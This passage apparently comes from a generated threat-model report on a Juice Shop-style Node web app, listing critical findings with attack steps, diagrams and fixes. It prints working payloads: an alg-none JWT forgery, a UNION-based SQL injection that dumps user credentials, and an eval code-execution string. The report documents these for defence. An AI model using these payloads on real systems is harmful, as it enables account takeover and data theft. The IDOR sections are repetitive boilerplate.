1. express-jwt version 0.1.3 (package\.json) and jsonwebtoken version 0.4.0 do not enforce algorithm restrictions.
2. An attacker constructs a JWT with header {"alg":"none"}, an arbitrary payload ({"data":{"role":"admin","id":1}}), and an empty signature. `isAuthorized()` at `lib/insecurity.ts:54` passes this token to express-jwt without specifying an algorithms allowlist, so the library accepts the unsigned token as valid.
3. the MFA second-factor tmpToken is verified at `routes/2fa.ts:26` via `security.verify()` which calls `jws.verify()` - if `jws.verify()` with algorithm none also passes, the attacker skips the MFA step entirely.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-013](#m-013) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-013](#m-013) (Enforce JWT signature and algorithm verification)

### 3.4 OAuth-Derived Predictable Password — oauth.component.ts:30

**Source:** 🔴 [F-005](#f-005) — `frontend/src/app/oauth/oauth.component.ts:30`

Severity **Critical** ([CWE-522](https://cwe.mitre.org/data/definitions/522.html)). STRIDE: Spoofing. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. When a user authenticates via Google OAuth, `OAuthComponent` at line 30 computes a deterministic password: `btoa(profile.email.split('').reverse().join(''))`.
2. This password is then used to register or log in the user at line 31 and 46.
3. The algorithm is trivially computable by any attacker who knows the target's email address.

**Sequence Diagram**



**Key takeaway:** Until ❷ [M-014](#m-014) (Eliminate derived passwords; use server-side OAuth token exc) lands, 🔴 [F-005](#f-005) — OAuth-Derived Predictable Password — `oauth.component.ts:30` is exploitable at `frontend/src/app/oauth/oauth.component.ts:30` (Critical-severity, [CWE-522](https://cwe.mitre.org/data/definitions/522.html)).

**Defense in Depth**

- Primary mitigation: ❷ [M-014](#m-014) (Eliminate derived passwords; use server-side OAuth token exchange without a password proxy)

### 3.5 SQL Injection in Product Search Route — routes/search.ts:23

**Source:** 🔴 [F-006](#f-006) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. `routes/search.ts:23` interpolates `req.query.q` directly into a raw SQL LIKE query: ``SELECT * FROM Products WHERE ((name LIKE '%\${criteria}%' OR description LIKE '%\${criteria}%') AND deletedAt IS NULL)``. The only guard is a 200-character length truncation (``criteria.substring(0, 200)``). A UNION-SELECT payload such as `%')) UNION SELECT email,password,1,1,1,1,1,1,1 FROM Users--` extracts all user credentials.
2. The endpoint is publicly accessible with no authentication requirement, widening the attacker population to anonymous internet users.
3. Identify the vulnerable input parameter - `backend-api` interpolates it directly into a SQL string at `routes/search.ts:23`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-015](#m-015) (Use parameterized database queries) lands, 🔴 [F-006](#f-006) — SQL Injection in Product Search Route — `routes/search.ts:23` is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-015](#m-015) (Use parameterized database queries)

### 3.6 Remote Code Execution — routes/userProfile.ts:62

**Source:** 🔴 [F-007](#f-007) — `routes/userProfile.ts:62`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Tampering. See [§8 F-007](#f-007) for the full register row.

**Attack Steps**

1. `routes/userProfile.ts:55-62` checks if the authenticated user's stored username matches `#{(.*)}` and, if so, calls `eval(code)` where `code` is the captured group from the regex match.
2. An attacker updates their profile username to `#{require('child_process').execSync('id')}` and then visits `/profile`.
3. The server executes `require('child_process').execSync('id')` in the Node\.js process context, returning the OS user identity.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-016](#m-016) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-007](#f-007) — Remote Code Execution — `routes/userProfile.ts:62` is exploitable at `routes/userProfile.ts:62` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-016](#m-016) (Remove server-side evaluation of untrusted input)

### 3.7 Insecure Direct Object Reference — routes/address.ts:11

**Source:** 🔴 [F-008](#f-008) — `routes/address.ts:11`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:11`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` is exploitable at `routes/address.ts:11` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.8 Insecure Direct Object Reference — routes/address.ts:18

**Source:** 🔴 [F-009](#f-009) — `routes/address.ts:18`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:18`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-009](#f-009) — Insecure Direct Object Reference — `routes/address.ts:18` is exploitable at `routes/address.ts:18` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.9 Insecure Direct Object Reference — routes/address.ts:29

**Source:** 🔴 [F-010](#f-010) — `routes/address.ts:29`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:29`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-010](#f-010) — Insecure Direct Object Reference — `routes/address.ts:29` is exploitable at `routes/address.ts:29` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.10 Insecure Direct Object Reference — routes/dataExport.ts:26

**Source:** 🔴 [F-011](#f-011) — `routes/dataExport.ts:26`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/dataExport.ts:26`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-011](#f-011) — Insecure Direct Object Reference — `routes/dataExport.ts:26` is exploitable at `routes/dataExport.ts:26` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.11 Insecure Direct Object Reference — routes/deluxe.ts:25

**Source:** 🔴 [F-012](#f-012) — `routes/deluxe.ts:25`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/deluxe.ts:25`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-012](#f-012) — Insecure Direct Object Reference — `routes/deluxe.ts:25` is exploitable at `routes/deluxe.ts:25` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.12 Insecure Direct Object Reference — routes/deluxe.ts:30

**Source:** 🔴 [F-013](#f-013) — `routes/deluxe.ts:30`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/deluxe.ts:30`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-013](#f-013) — Insecure Direct Object Reference — `routes/deluxe.ts:30` is exploitable at `routes/deluxe.ts:30` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.13 Insecure Direct Object Reference — routes/deluxe.ts:35

**Source:** 🔴 [F-014](#f-014) — `routes/deluxe.ts:35`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/deluxe.ts:35`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-014](#f-014) — Insecure Direct Object Reference — `routes/deluxe.ts:35` is exploitable at `routes/deluxe.ts:35` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.14 Insecure Direct Object Reference — routes/memory.ts:15

**Source:** 🔴 [F-015](#f-015) — `routes/memory.ts:15`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-015](#f-015) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/memory.ts:15`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-015](#f-015) — Insecure Direct Object Reference — `routes/memory.ts:15` is exploitable at `routes/memory.ts:15` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.15 Insecure Direct Object Reference — routes/order.ts:142

**Source:** 🔴 [F-016](#f-016) — `routes/order.ts:142`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-016](#f-016) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/order.ts:142`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/order.ts:142
    Attacker->>App: Crafted request exercising the weakness at routes/order.ts line 142
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-016
        Attacker->>App: Crafted request exploiting F-016 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-016](#f-016) — Insecure Direct Object Reference — `routes/order.ts:142` is exploitable at `routes/order.ts:142` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.16 Insecure Direct Object Reference — routes/order.ts:144

**Source:** 🔴 [F-017](#f-017) — `routes/order.ts:144`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-017](#f-017) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/order.ts:144`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/order.ts:144
    Attacker->>App: Crafted request exercising the weakness at routes/order.ts line 144
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-017
        Attacker->>App: Crafted request exploiting F-017 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-017](#f-017) — Insecure Direct Object Reference — `routes/order.ts:144` is exploitable at `routes/order.ts:144` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.17 Insecure Direct Object Reference — routes/order.ts:151

**Source:** 🔴 [F-018](#f-018) — `routes/order.ts:151`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-018](#f-018) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/order.ts:151`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/order.ts:151
    Attacker->>App: Crafted request exercising the weakness at routes/order.ts line 151
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-018
        Attacker->>App: Crafted request exploiting F-018 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-018](#f-018) — Insecure Direct Object Reference — `routes/order.ts:151` is exploitable at `routes/order.ts:151` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.18 Insecure Direct Object Reference — routes/payment.ts:21

**Source:** 🔴 [F-019](#f-019) — `routes/payment.ts:21`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-019](#f-019) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/payment.ts:21`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/payment.ts:21
    Attacker->>App: Crafted request exercising the weakness at routes/payment.ts line 21
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-019
        Attacker->>App: Crafted request exploiting F-019 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-019](#f-019) — Insecure Direct Object Reference — `routes/payment.ts:21` is exploitable at `routes/payment.ts:21` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.19 Insecure Direct Object Reference — routes/payment.ts:41

**Source:** 🔴 [F-020](#f-020) — `routes/payment.ts:41`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-020](#f-020) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/payment.ts:41`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/payment.ts:41
    Attacker->>App: Crafted request exercising the weakness at routes/payment.ts line 41
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-020
        Attacker->>App: Crafted request exploiting F-020 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-020](#f-020) — Insecure Direct Object Reference — `routes/payment.ts:41` is exploitable at `routes/payment.ts:41` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.20 Insecure Direct Object Reference — routes/payment.ts:70

**Source:** 🔴 [F-021](#f-021) — `routes/payment.ts:70`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-021](#f-021) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/payment.ts:70`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/payment.ts:70
    Attacker->>App: Crafted request exercising the weakness at routes/payment.ts line 70
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-021
        Attacker->>App: Crafted request exploiting F-021 succeeds
